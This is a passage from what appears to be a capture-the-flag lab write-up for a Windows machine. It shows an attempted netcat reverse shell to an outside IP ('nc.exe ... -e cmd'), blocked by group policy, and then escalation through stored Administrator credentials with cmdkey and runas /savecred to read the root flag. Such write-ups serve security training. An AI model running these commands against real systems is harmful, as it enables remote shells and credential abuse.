 ```PowerShell
C:\Users\security\Desktop>nc.exe 10.10.14.19 6666 -e cmd
This program is blocked by group policy. For more information, contact your system administrator.

C:\Users\security\Desktop>win.exe
This program is blocked by group policy. For more information, contact your system administrator.
```

## RunAs

When we check stored credentials on the machine, we notice there is a set of credentials stored for the Administrator. ^RunAs

```PowerShell
C:\Users\security\Desktop>cmdkey /list
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Since we have a set of stored credentials, we can try to use the `runas.exe` to execute commands as the administrator.

```PowerShell
C:\Users>cd Administrator
Access is denied.

C:\Users>C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"

C:\Users\>cd security

C:\Users\security>dir
 Volume in drive C has no label.
 Volume Serial Number is 8164-DB5F

 Directory of C:\Users\security

07/14/2025  01:43 AM    <DIR>          .
07/14/2025  01:43 AM    <DIR>          ..
08/24/2018  08:37 PM    <DIR>          .yawcam
08/21/2018  11:35 PM    <DIR>          Contacts
07/14/2025  01:38 AM    <DIR>          Desktop
08/21/2018  11:35 PM    <DIR>          Documents
08/21/2018  11:35 PM    <DIR>          Downloads
08/21/2018  11:35 PM    <DIR>          Favorites
08/21/2018  11:35 PM    <DIR>          Links
08/21/2018  11:35 PM    <DIR>          Music
08/21/2018  11:35 PM    <DIR>          Pictures
07/14/2025  01:43 AM                34 root.txt
08/21/2018  11:35 PM    <DIR>          Saved Games
08/21/2018  11:35 PM    <DIR>          Searches
08/24/2018  08:39 PM    <DIR>          Videos
               1 File(s)             34 bytes
              14 Dir(s)   3,316,953,088 bytes free
```
